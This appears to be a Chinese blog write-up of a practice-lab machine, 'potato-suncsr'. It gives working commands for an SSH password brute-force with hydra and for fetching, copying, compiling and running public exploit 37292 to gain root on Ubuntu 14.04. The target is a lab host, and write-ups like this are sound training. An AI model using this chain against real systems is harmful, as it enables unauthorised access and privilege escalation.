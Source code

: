 ```yaml
---
layout: post
title: potato-suncsr
subtitle: potato-suncsr
date: 2025-07-12 10:24
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息搜集

扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/NvGNLM.png)

扫描端口

![image.png](https://img.ghostliner.top/SUmsGq.png)

访问80端口，未发现有效信息，目录扫描发现 `/info.php`

`whatweb` 未发现信息

### SSH爆破

```shell
hydra -l potato -P 字典2/字典.txt -vV ssh://192.168.163.133:7120
```

![image.png](https://img.ghostliner.top/Q688l8.png)

```shell
ssh -p 7120 potato@192.168.163.133
```

### 提权

进入目标机后，尝试sudo, find 提权失败，查看系统信息

```shell
cat /etc/issue
uname -a
```

![image.png](https://img.ghostliner.top/N5KzN9.png)

搜索相关漏洞

```shell
searchsploit ubuntu 14.04
```

![image.png](https://img.ghostliner.top/7OioDi.png)

```shell
# 复制文件
searchsploit -m 37292
# 传输到目标机
scp -P 7120 37292.c potato@192.168.163.133:~
```

在目标机上编译并执行

```shell
gcc 37292.c
./a.out
```

![image.png](https://img.ghostliner.top/BNYY9H.png)

找到flag
![image.png](https://img.ghostliner.top/vmiV9f.png)
